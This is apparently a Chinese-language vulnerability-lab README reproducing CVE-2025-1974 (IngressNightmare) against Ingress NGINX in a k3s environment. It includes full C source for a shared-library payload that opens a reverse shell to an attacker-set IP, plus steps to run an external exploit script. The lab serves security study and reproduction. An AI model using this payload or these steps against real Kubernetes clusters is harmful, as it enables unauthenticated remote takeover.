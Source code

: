 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）

Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE 
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE 
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 k8s 环境， 这里我方便使用 k3s 进行替代：

```bash
docker compose up -d
```

等待一段时间后环境启动成功， 使用 `docker exec` 子命令进入到容器内部执行 `./exploit/init.sh`

```sh
$ docker ps -a  |grep k3s
b26496088394   rancher/k3s:v1.29.1-k3s1   "/bin/k3s server"        3 minutes ago   Up 3 minutes                0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   cve-2025-1974-k3s-1

# swing @ sw in ~/Desktop/vulhub/ingress-nginx/CVE-2025-1974 on git:master x [16:49:44]
$ docker exec -it cve-2025-1974-k3s-1 sh
/ # sh ./exploit/init.sh
...
root@exploit-pod:/# 
```

当成功初始化后，会进入到一个名为exploit-pod的容器里。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```
修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。
```
cd /exploit
python3 exploit.py
```
可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main